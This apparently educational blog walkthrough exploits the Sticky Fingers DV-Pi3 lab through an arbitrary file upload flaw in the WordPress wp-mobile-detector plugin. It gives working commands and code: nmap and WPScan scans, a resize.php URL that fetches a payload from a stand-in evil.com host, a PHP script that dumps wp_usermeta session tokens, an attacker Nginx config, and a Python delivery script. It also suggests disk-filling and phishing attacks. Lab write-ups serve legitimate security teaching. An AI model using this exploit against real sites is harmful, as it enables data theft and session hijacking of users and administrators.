



Continuing our series on Setting up and Hacking our Raspberry Pi, let’s see if we can crack a real application running on our target. Warning: This contains spoilers for Sticky Fingers Damn Vulnerable Pi (DV-PI3).

One of the first things that happens during a hack is something called Enumeration. It means to find your target, ports, and services that are potentially vulnerable attack vectors.

```sh
nmap 192.168.1.0/24
```

This will show you all of the devices on your network. I also see our target.



It is running SSH and a web server.


Navigating to our target in our browser, we see what looks like a WordPress site. Let’s scan it for potential vulnerabilities. I will be doing an aggressive scan using WPScan. We are now moving away from Enumeration and into Scanning.

```sh
wpscan --url 192.168.1.161 --enumerate --plugins-detection aggressive
```

This might take a minute, and it produces a lot of output. We see something promising among the rubble: a highly vulnerable plugin.



The plugin in question is called wp-mobile-detector. We see a stored XSS attack is possible here, and arbitrary file upload. For today, we will focus on the latter.

**Arbitrary file upload** can be extremely dangerous. Especially if these files also get executed by the server's PHP engine. We can really get creative here. Here are some things that come to mind when I see this.

- Availability attack. Script the upload of large files to crash the server, or hurt performance by filling disk space and memory.

- Social engineering. Put a malicious login form on the server, then link this to people. Siphon passwords and other information from users.

- Upload a malicious PHP script that dumps database information from the server to the attacker.

The first and second attack are not as interesting in a lab setting, so let’s try the third. And I should say, there are dozens of other creative attacks here. This exploit looks like it uses a mobile device resize mechanism that downloads a src parameter to the server and stores it in cache. For example:

`http://www.vulnerable.com/wp-content/plugins/wp-mobile-detector/resize.php?src=http://www.evil.com/crack.php`

The “src” parameter here is the location of our malicious script, which will be stored on server here:

`http://www.vulnerable.com/wp-content/plugins/wp-mobile-detector/cache/crack.php`

Let’s sling some PHP to dump some database information.

```php
<?php
require_once( $_SERVER['DOCUMENT_ROOT'] . '/wp-config.php' );
require($_SERVER['DOCUMENT_ROOT'] . '/wp-load.php');
global $wpdb;
echo 'hacked!<br>';
echo 'stickyfingers proof: ' . file_get_contents("/proof.txt");
echo '<br><br>database stuffz...<br>';
$querystr ="SELECT * FROM wordpress.wp_usermeta";
$pageposts = $wpdb->get_results($querystr, OBJECT);
echo '<pre>'; print_r($pageposts); echo '</pre>';
?>
```

And we will need an attack server to host it. I spun up a Nginx server to do this. Here’s a simple Nginx config

```sh
server {
    listen 80 default_server;
    listen [::]:80 default_server;
    root /home/zeevo/Projects/static;
    index index.html;
    location / {
        try_files $uri $uri/ =404;
    }
}
```

And inside that site we have our PHP.


Let’s use Python to send the hack.

```python
import requests

target = 'http://192.168.1.161/wp-content/plugins/wp-mobile-detector/resize.php'
evil_script = 'http://192.168.1.156/evil.php' # my attack server
payload = {
'src': evil_script
}

requests.post(target, data=payload)
```

We are now in the Attack phase. Let’s do this:

```sh
python hack.py
```

And if everything worked we should see some fun stuff back on the WordPress site. Navigating to our script triggers the web server to run PHP on it, executing all the code and returning the result to the attacker.

http://192.168.1.161/wp-content/plugins/wp-mobile-detector/cache/evil.php



Boom! We dumped the wp_usermeta table, which contains session_tokens. With this we could session hijack normal users, or even the admin!

Let’s summarize what we did.

Enumerate to find our target and services using nmap
Scan aggressively for attack vectors using WPscan
Attack/Exploit vulnerabilities we find using Python, PHP, and an attack server.
That’s all for now though. I hope those that are stuck on Stickyfingers Damn Vulnerable Pi find this helpful.

References:

- https://wpvulndb.com/vulnerabilities/8059

Disclaimer:

- Hacking any computer system without permission is illegal. The above information is for educational purposes only. Get permission before pen testing systems.
